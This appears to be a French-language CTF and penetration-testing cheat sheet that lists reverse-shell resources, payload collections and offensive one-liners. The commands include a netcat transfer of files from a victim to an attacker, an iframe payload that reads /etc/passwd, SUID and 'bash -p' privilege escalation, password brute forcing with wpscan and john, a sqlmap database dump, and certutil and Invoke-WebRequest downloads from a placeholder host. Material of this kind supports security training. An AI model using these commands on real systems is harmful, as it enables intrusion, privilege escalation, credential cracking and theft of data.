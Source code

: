```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

[ENUM] linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
[ENUM] winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

[SHELL] Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
[SHELL] Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
[SHELL] Reverse Shells : https://www.revshells.com/ <br>
[SHELL] Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

[MISC] subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
[MISC] Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
[MISC] PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
[MISC] Binaries exploit : https://gtfobins.github.io/ <br>


-------------------------------------------------------------------------------------------------------------------------------------------+
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => WORDPRESS TOOL           - wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](ENUM)      => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](ENUM)      => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                   smbclient //<ip>/anonymous (-U pour un utilisateurs)
                   smbget -R smb://<ip>/anonymous
[CMD](ENUM)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)

[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](AD)*PS*    => Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
[CMD](AD)*PS*    => Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```
-------------------------------------------------------------------------------------------------------------------------------------------+
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
